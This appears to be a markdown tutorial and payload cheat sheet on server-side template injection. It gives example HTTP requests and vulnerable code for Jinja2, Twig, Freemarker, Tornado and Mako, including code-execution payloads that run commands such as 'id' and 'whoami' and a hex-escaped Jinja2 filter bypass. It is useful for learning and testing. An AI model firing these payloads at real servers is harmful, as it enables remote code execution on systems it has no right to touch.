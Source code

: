 # Server-Side Template Injection (SSTI)

## Table of Contents
1. [Introduction](#introduction)
2. [How Does SSTI Vulnerability Occur?](#how-does-ssti-vulnerability-occur)
3. [Where to Put an SSTI Payload?](#where-to-put-an-ssti-payload)
4. [Examples of HTTP Requests with SSTI Payloads](#examples-of-http-requests-with-ssti-payloads)
   - [Basic SSTI in a Python Flask/Jinja2 Application](#basic-ssti-in-a-python-flaskjinja2-application)
   - [Exploiting SSTI to Execute Arbitrary Code](#exploiting-ssti-to-execute-arbitrary-code)
   - [SSTI in a PHP Application Using Twig](#ssti-in-a-php-application-using-twig)
   - [Java Application Using Freemarker](#java-application-using-freemarker)
5. [Breaking Out of Expressions](#breaking-out-of-expressions)
6. [SSTI Payloads for Detection](#ssti-payloads-for-detection)
7. [SSTI Payloads for Specific Template Engines](#ssti-payloads-for-specific-template-engines)
   - [Tornado (Python)](#tornado-python)
   - [Mako (Python)](#mako-python)
   - [jinja2 filter bypass](#jinja2-filter-bypass)

---

## Introduction
**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

## How Does SSTI Vulnerability Occur?
SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

## Where to Put an SSTI Payload?
An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

## Examples of HTTP Requests with SSTI Payloads
### Basic SSTI in a Python Flask/Jinja2 Application
**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
**In code context**:

![Screenshot From 2025-03-21 10-20-10](https://github.com/user-attachments/assets/8f83b265-7297-4f52-aa10-3ec37bafcd78)

### Exploiting SSTI to Execute Arbitrary Code
**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### SSTI in a PHP Application Using Twig
**Malicious Payload (`{{7*7}}`)**:
- In Twig, this would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```

### Java Application Using Freemarker
**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```

**Vulnerable Code Example**:
```java
template.process(dataModel, out);
```

## Breaking Out of Expressions
In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}
   ```

## SSTI Payloads for Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

## SSTI Payloads for Specific Template Engines
### Tornado (Python)
**Detection Payload**:
```python
{{7*7}}
```

**Execution Payload**:
```python
{{__import__('os').popen('whoami').read()}}
```

### Mako (Python)
**Detection Payload**:
```python
${7*7}
```

**Execution Payload**:
```python
${self.module.cache.util.os.popen("whoami").read()}
```

### jinja2 filter bypass
```
{{ ()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')() }}
```
---
